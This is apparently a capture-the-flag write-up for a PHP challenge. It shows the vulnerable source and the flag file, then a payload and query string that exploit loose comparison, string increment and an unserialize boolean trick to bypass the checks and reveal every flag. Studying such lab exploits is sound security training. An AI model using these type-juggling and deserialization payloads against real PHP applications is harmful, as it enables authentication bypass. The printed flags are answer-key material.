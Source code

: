 ## code `fatherphp.php`
```php
<?php

include('flag_fp.php');

highlight_file('fatherphp.php');

$a = $_GET['key1'];

if($a==56 || $a>256){
  die("Really???");
}
elseif(chr($a)==="8"){
  echo "Carry on" . "<br>";
  echo $flag1 . "<br>";
}
else{
  die("You are not good");
}

$b = $_GET['key2'];

if(strpos($b,'8')!==false){
  die("It won't be that easy");
}
for($i=0;$i<=1;$i++){
  ++$b;
}
if($b==10){
  echo "Good luck" . "<br>";
  echo $flag2 . "<br>";
}
else{
  die("No Luck");
}

$m = md5($_GET['rq']);

if($_GET['fp'] == $m){
  echo $flag3."<br>";
}
elseif(isset($fp)){
  die("You failed");
}

$n = hash('ripemd160',$_GET['np']);

if($_GET['nq'] === $n){
  echo $flag4."<br>";
}
elseif(isset($np)){
  die("You failed");
}

$hell=$_GET['key3'];
if(strpos($hell, 'i')!==false || strpos($hell, 'I')!==false){
  die("You...can't...");
}
$data = unserialize($hell);
if ($data['username'] == $adminName && $data['password'] == $adminPassword) {
 echo $flag5 . "<br>";
} else {
 die("useless");
}

?>

```

## code `flag_fp.php`

```php
$flag1 = "secarmy{y0u";
$flag2 = "_5h0uld_a";
$flag3 = "v01d_";
$flag4 = "pHp_d0n";
$flag5 = "7'you??}";
$adminName = sha1(mt_rand());
$adminPassword =  sha1(mt_rand());
```
## PAYLOAD
key1: `-71857864`
key2 : `1e1 - 2`
rq: `rq`
fp: `c6d8c86cf807f3f3b38850342d1531b3`
np: `np`
nq: `f48bc65fa1e0549ba479b41e57a4006a861358fc`
key3: `a:2:{s:8:"username";b:1;s:8:"password";b:1;}`


```
?key1=-71857864&key2=1e1%20-2&rq=rq&fp=c6d8c86cf807f3f3b38850342d1531b3&np=np&nq=f48bc65fa1e0549ba479b41e57a4006a861358fc&key3=a:2:{s:8:"username";b:1;s:8:"password";b:1;}
```


